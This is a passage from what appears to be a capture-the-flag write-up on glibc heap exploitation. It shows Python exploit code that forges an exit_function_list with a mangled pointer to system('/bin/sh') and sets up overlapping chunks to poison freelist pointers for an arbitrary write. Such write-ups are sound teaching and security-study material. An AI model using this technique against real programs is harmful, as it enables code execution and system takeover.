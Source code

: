 And we have the key.

<img src="./assets/key.png" align="center" />

Next up, creating a fake `exit_function_list`. Simple enough now that we have the key.

```python
# exit_function_list struct - look at source code
# NULL next ptr - idx 1 - exit_function struct: flavor ef_cxa (enum 4) - void *fn - void *arg - NULL ptr because of union (24 bytes used)

# (for some reason first 24 bytes are where being nulled out - pad with 16 junk bytes)
exit_shell = p64(0)*2 # junk
exit_shell += p64(0) + p64(1) + p64(4) # fake exit_function_list starts here
exit_shell += p64(rol64(libc.sym.system ^ key, 0x11)) # mangled func ptr
exit_shell += p64(next(libc.search(b'/bin/sh\x00')))  # arg ptr
exit_shell += p64(0) # NULL because of union
exit_shell_ptr = heap_base + 0x450 # address of our exit_function_list
print(f'exit_shell_ptr @ {hex(exit_shell_ptr)}')
alloc(len(exit_shell), data=exit_shell) # allocate it
```

Now, we have to overcome our last obstacle, getting an arbitrary write. We will do this by creating two overlapping chunks, and after the smaller inner chunk is freed, overwrite its freelist pointers to get a chunk on `exit_funcs`.

```python
# create a 0x58 sized chunk with a fake smaller chunk inside
# free the bigger chunk and keep track of the fake chunk pointer
# (we free it since there is no edit functionality, and we plan on getting back the 0x58 chunk)
idx = alloc(0x58, data=p64(0)*3+p64(0x31)+b'X'*32)
delete(idx)
free_ptr = heap_base + 0x4e0 # pointer to the fake 0x31 sized chunk
print(f'free ptr @ {hex(free_ptr)}')
```
